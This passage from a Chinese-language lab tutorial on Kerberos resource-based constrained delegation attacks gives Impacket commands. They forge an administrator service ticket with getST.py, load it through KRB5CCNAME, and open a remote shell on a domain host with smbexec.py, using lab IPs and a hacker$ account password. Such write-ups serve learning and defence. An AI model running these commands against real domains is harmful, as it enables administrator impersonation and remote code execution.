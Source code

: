    ![image-20240717145418003](Kerberos/image-20240717145418003.png)
    可以看到下方提示被攻击的主机的机器账户委派修改成功。

8. 获取服务票据，设置环境变量并导入（别忘了 Kali 改 DNS 服务器）：
    ```bash
    # python3 ./getST.py -dc-ip 域控的-ip endlessshw2/主机账号\$:密码 -spn cifs/主机名.endlessshw2.com -impersonate administrator
    python3 ./getST.py -dc-ip 192.168.31.4 endlessshw2/hacker\$:cjy320723 -spn cifs/Winserver12.endlessshw2.com -impersonate administrator
    export KRB5CCNAME=administrator@cifs_Winserver12.endlessshw2.com@ENDLESSSHW2.COM.ccache
    python3 smbexec.py -no-pass -k Winserver12.endlessshw2.com
    ```

    ![image-20240717150909389](Kerberos/image-20240717150909389.png)
